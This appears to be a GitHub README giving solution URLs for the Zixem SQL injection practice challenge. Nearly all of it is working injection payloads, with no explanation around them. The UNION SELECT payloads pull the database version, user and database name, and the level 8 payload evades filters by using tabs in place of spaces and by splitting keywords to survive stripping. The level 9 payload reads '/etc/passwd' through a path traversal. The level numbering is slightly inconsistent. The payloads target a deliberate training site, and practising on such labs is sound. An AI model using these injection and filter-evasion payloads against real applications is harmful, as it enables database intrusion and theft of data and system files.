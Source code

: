 # ZixemSQLi Challange

[READ RULES](http://www.zixem.altervista.org/SQLi/index.php)

## LEVEL 1

```
http://www.zixem.altervista.org/SQLi/level1.php?id=1111%20union%20select%20concat_ws(0x3a,%20version(),%20user()),%2022,%203
```

## LEVEL 2

```
http://www.zixem.altervista.org/SQLi/level2.php?showprofile=-1' union select database(),version(),user(),4--+
```

## LEVEL 3

```
http://www.zixem.altervista.org/SQLi/level3.php?item=-4%27%20unionon%20SeLect%20database(),User(),version(),4--+
```

## LEVEL 4

```
http://www.zixem.altervista.org/SQLi/level4.php?ebookid=999%27%20union%20select%20version(),2,user(),4,5--+
```

## LEVEL 5

```
view-source:http://www.zixem.altervista.org/SQLi/level7.php?id=1111111%20union%20select%201,concat_ws(0x3a,%20version(),user()),2--+
```

## LEVEL 8

SELECT is trimmed, spaces are banned, comments are banned

```
http://www.zixem.altervista.org/SQLi/lvl8.php?id=11111111111111111111111%09union%09selselectect%09version(),user(),2
```

## LEVEL 9

```
http://www.zixem.altervista.org/SQLi/lvl9.php?id=2%27%20union%20select%20%22../etc/passwd%22,%202--+
```



